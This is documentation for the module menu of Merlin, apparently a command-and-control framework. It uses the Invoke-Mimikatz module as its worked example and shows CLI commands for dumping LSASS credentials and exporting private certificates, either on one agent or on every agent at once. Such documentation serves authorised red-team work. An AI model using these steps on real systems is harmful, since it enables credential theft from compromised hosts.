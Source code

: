 ############
Modules Menu
############

The module menu context is used to interact with, and configure, a module. The Merlin prompt will include the word module along with the identifier for the selected module. Type ``help`` to see a list of available commands for the agent menu context.

.. code-block:: text

    Merlin» use module windows/x64/powershell/powersploit/Invoke-Mimikatz
    Merlin[module][Invoke-Mimikatz]» help

      COMMAND |          DESCRIPTION           |           OPTIONS
    +---------+--------------------------------+------------------------------+
      back    | Return to the main menu        |
      info    | Show information about a       |
              | module                         |
      interact| Interact with an agent         | interact <agent_id>
      main    | Return to the main menu        |
      reload  | Reloads the module to a fresh  |
              | clean state                    |
      run     | Run or execute the module      |
      sessions| List all agents session        |
              | information. Alias for MSF     |
              | users                          |
      set     | Set the value for one of the   | <option name> <option value>
              | module's options               |
      show    | Show information about a       | info, options
              | module or its options          |

.. _back:

back
----

The ``back`` command is used to leave the Module menu and return back to the :doc:`main`.

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» back
    Merlin»

info
----

The ``info`` command command is used to print all of the information about a module to the screen. This information includes items such as module's name, authors, credits, description, notes, and configurable options. This is an alias for the ``show info`` command.

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» show info
    Module:
            Invoke-Mimikatz
    Platform:
            windows\x64\PowerShell
    Authors:
            Russel Van Tuyl (@Ne0nd0g)
    Credits:
            Joe Bialek (@JosephBialek)
            Benjamin Delpy (@gentilkiwi)
    Description:
            This script leverages Mimikatz 2.0 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory. This allows you to do things such as dump credentials without ever writing the mimikatz binary to disk. The script has a ComputerName parameter which allows it to be executed against multiple computers. This script should be able to dump credentials from any version of Windows through Windows 8.1 that has PowerShell v2 or higher installed.

    Agent: 00000000-0000-0000-0000-000000000000

    Module options(Invoke-Mimikatz)

          NAME     |                VALUE                 | REQUIRED |          DESCRIPTION
    +--------------+--------------------------------------+----------+--------------------------------+
      Agent        | 00000000-0000-0000-0000-000000000000 | true     | Agent on which to run module
                   |                                      |          | Invoke-Mimikatz
      DumpCreds    | true                                 | false    | [Switch]Use mimikatz to dump
                   |                                      |          | credentials out of LSASS.
      DumpCerts    |                                      | false    | [Switch]Use mimikatz to export
                   |                                      |          | all private certificates
                   |                                      |          | (even if they are marked
                   |                                      |          | non-exportable).
      Command      |                                      | false    | Supply mimikatz a custom
                   |                                      |          | command line. This works
                   |                                      |          | exactly the same as running
                   |                                      |          | the mimikatz executable
                   |                                      |          | like this: mimikatz
                   |                                      |          | "privilege::debug exit" as an
                   |                                      |          | example.
      ComputerName |                                      | false    | Optional, an array of
                   |                                      |          | computernames to run the
                   |                                      |          | script on.

    Notes: This is part of the PowerSploit project https://github.com/PowerShellMafia/PowerSploit

interact
--------

The ``interact`` command takes one argument, the agent ID, and is used to switch agents and interact with a different, specified agent.

.. note::
    Use the built-in tab completion to cycle through and select the agent to interact with.

.. code-block:: text

    Merlin[module][BASH]» interact c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

main
----

The ``main`` command is used to leave the Agent menu and return back to the :doc:`main`. It is an alias for the back_ command.

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» main
    Merlin»

reload
------

The ``reload`` command is used to clear out all of a module's configurable options and return its settings to the default state.

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» reload
    Merlin[module][Invoke-Mimikatz]»

run
---

The ``run`` command is used to execute the module on the agent configured for the module's [agent](#set-agent) value.

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» run
    Merlin[module][Invoke-Mimikatz]» [-]Created job iReycchrck for agent ebf1b1d2-44d5-4f85-86f5-cae112600870
    [+]Results for job iReycchrck
    [+]
      .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
     .## ^ ##.  "A La Vie, A L'Amour"
     ## / \ ##  /* * *
     ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
      '#####'                                     with 20 modules * * */
    <snip>
    Merlin[module][Invoke-Mimikatz]»

sessions
--------

The ``sessions`` command is used to quickly list information about established agents from the module menu to include their status.
The sessions command is available from any menu in the CLI.

.. code-block:: text

    Merlin[module][BASH]» sessions

                   AGENT GUID              |    TRANSPORT    |   PLATFORM    |      HOST       |        USER         |                 PROCESS                  | STATUS | LAST CHECKIN |      NOTE
    +--------------------------------------+-----------------+---------------+-----------------+---------------------+------------------------------------------+--------+--------------+-----------------+
      d07edfda-e119-4be2-a20f-918ab701fa3c | HTTP/2 over TLS | linux/amd64   | ubuntu          | rastley             | main(200769)                             | Active | 0:00:08 ago  | Demo Agent Here


set
---

The ``set`` command is used to set the value for one of the module's configurable options. This command is used by specifying the name of the option that should be set followed by a value. Tab completion is enabled and provides a list of all configurable options.

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» set DumpCerts true
    [+]DumpCerts set to true
    Merlin[module][Invoke-Mimikatz]»

.. _set-agent:

set Agent
^^^^^^^^^

The `Agent` *option* for every module must be set in order for it have a target to execute on. By default, the module is configured with a blank value of ``00000000-0000-0000-0000-000000000000``. To set an agent, provide the agent's ID (tab completion enabled).

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» set agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]agent set to c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[module][Invoke-Mimikatz]»


The special value ``all`` can be provided and instructs Merlin to execute the module on all agents. When this value is provided, the module's agent option is set to all F's like: ``ffffffff-ffff-ffff-ffff-ffffffffffff``

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» set agent all
    [+]agent set to ffffffff-ffff-ffff-ffff-ffffffffffff
    Merlin[module][Invoke-Mimikatz]»

show
----

The ``show`` command is used to retrieve information about the module itself. This command uses additional options to specify what information should be retrieved.

Options:

* info_
* options_

.. _info:

info
^^^^

The ``info`` sub-command for the ``show`` command is used to print all of the information about a module to the screen. This information includes items such as module's name, authors, credits, description, notes, and configurable options.

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» show info
    Module:
            Invoke-Mimikatz
    Platform:
            windows\x64\PowerShell
    Authors:
            Russel Van Tuyl (@Ne0nd0g)
    Credits:
            Joe Bialek (@JosephBialek)
            Benjamin Delpy (@gentilkiwi)
    Description:
            This script leverages Mimikatz 2.0 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory. This allows you to do things such as dump credentials without ever writing the mimikatz binary to disk. The script has a ComputerName parameter which allows it to be executed against multiple computers. This script should be able to dump credentials from any version of Windows through Windows 8.1 that has PowerShell v2 or higher installed.

    Agent: 00000000-0000-0000-0000-000000000000

    Module options(Invoke-Mimikatz)

          NAME     |                VALUE                 | REQUIRED |          DESCRIPTION
    +--------------+--------------------------------------+----------+--------------------------------+
      Agent        | 00000000-0000-0000-0000-000000000000 | true     | Agent on which to run module
                   |                                      |          | Invoke-Mimikatz
      DumpCreds    | true                                 | false    | [Switch]Use mimikatz to dump
                   |                                      |          | credentials out of LSASS.
      DumpCerts    |                                      | false    | [Switch]Use mimikatz to export
                   |                                      |          | all private certificates
                   |                                      |          | (even if they are marked
                   |                                      |          | non-exportable).
      Command      |                                      | false    | Supply mimikatz a custom
                   |                                      |          | command line. This works
                   |                                      |          | exactly the same as running
                   |                                      |          | the mimikatz executable
                   |                                      |          | like this: mimikatz
                   |                                      |          | "privilege::debug exit" as an
                   |                                      |          | example.
      ComputerName |                                      | false    | Optional, an array of
                   |                                      |          | computernames to run the
                   |                                      |          | script on.

    Notes: This is part of the PowerSploit project https://github.com/PowerShellMafia/PowerSploit

options
^^^^^^^

The ``options`` sub-command for the `show` command is used to print *only* the configurable options along with their current value.

.. code-block:: text

    Merlin[module][Invoke-Mimikatz]» show options

    Agent: 00000000-0000-0000-0000-000000000000

    Module options(Invoke-Mimikatz)

          NAME     |                VALUE                 | REQUIRED |          DESCRIPTION
    +--------------+--------------------------------------+----------+--------------------------------+
      Agent        | 00000000-0000-0000-0000-000000000000 | true     | Agent on which to run module
                   |                                      |          | Invoke-Mimikatz
      DumpCreds    | true                                 | false    | [Switch]Use mimikatz to dump
                   |                                      |          | credentials out of LSASS.
      DumpCerts    |                                      | false    | [Switch]Use mimikatz to export
                   |                                      |          | all private certificates
                   |                                      |          | (even if they are marked
                   |                                      |          | non-exportable).
      Command      |                                      | false    | Supply mimikatz a custom
                   |                                      |          | command line. This works
                   |                                      |          | exactly the same as running
                   |                                      |          | the mimikatz executable
                   |                                      |          | like this: mimikatz
                   |                                      |          | "privilege::debug exit" as an
                   |                                      |          | example.
      ComputerName |                                      | false    | Optional, an array of
                   |                                      |          | computernames to run the
                   |                                      |          | script on.
